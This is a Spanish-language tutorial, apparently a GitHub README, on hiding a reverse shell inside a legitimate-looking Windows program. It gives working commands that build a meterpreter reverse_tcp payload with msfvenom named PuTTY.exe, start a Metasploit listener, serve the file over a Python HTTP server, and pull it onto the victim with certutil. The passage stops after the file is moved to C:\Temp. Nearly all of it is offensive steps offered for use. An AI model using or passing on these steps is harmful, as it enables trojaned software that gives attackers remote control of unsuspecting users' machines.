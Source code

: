 # Crear RevrseShell oculta de manera profesional en un archivo en windows (.exe .bat .ps1)

## Forma manual para entender como funciona por dentro

Vamos a crear el archivo malicioso oculto dentro de uno legitimo, escogeremos cualquier aplicacion que queramos ocultar el codigo malicioso, una vez teniendo la aplicacion haremos lo siguiente.

Antes de crearlo en nuestra maquina atacante creamos el archivo con `msfvenom`.

```shell
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > PuTTY.exe
```

Configuramos la escucha de metasploit.

```shell
msfconsole -q
```

```shell
use multi/handler
```

Configuramos la escucha.

```shell
set payload windows/x64/meterpreter/reverse_tcp
set LHOST <IP>
set LPORT <PORT>
```

Y ejecutamos la escucha, ahora esto lo dejaremos en segundo plano.

```shell
run
```

En otra terminal, abrimos un servidor de python para pasarnos la aplicacion legitima con codigo maligno.

```shell
python3 -m http.server 80
```

Dentro de la maquina victima windows, haremos lo siguiente (Aqui estamos simulando que un usuario se descarga una palicacion o apk maliciosa sin que el mismo lo sepa desde internet).

```shell
certutil -urlcache -f http://<IP>/PuTTY.exe payload.exe
```

Moveremos el archivo legitimo a la carpeta `Temp/` (Esto para que sea mas limpio todo, pero se podra dejar en el mismo escritorio si lo desea).

```shell
move payload.exe C:\Temp\
```

(Si no tenemos la carpeta la creamos.)

